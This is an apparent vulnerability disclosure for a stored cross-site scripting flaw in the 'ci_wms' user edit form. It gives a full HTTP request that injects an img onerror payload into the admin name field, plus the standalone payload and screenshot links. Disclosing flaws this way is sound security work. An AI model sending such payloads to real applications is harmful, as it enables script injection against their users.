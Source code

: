 Proof of vulnerability:

Request:

```
POST /ci_wms/pengaturan/pengguna/edit/admin HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 225
Origin: http://localhost
Sec-GPC: 1
Connection: close
Referer: http://localhost/ci_wms/pengaturan/pengguna/edit/admin
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14; sessions=jpl8k5bs8tuiji0nutsvbmga3f7msiag
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

admin_user=admin&admin_pass=admin123&admin_nama=M%22%3E%3Cimg+src%3D1+onerror%3Dalert%281%29%3E&admin_alamat=Here+St.+Over+There%2C+Anywhere%2C+2306&admin_telepon=9564897544&admin_level_kode=1&simpan=Update+Data
```

payload

```
"><img src=1 onerror=alert(1)>
```


<img width="1313" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/a3ae9313-6446-4315-838d-4a0681fd5ef5">
<img width="1268" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/cdf83903-8d97-4f5b-823c-23be73c4003b">
<img width="1265" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/fd74a2d1-ab0a-451a-a0e6-88b99e35bebc">
<img width="1339" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/3210964d-d5bd-4652-b8a2-cf631999fa58">





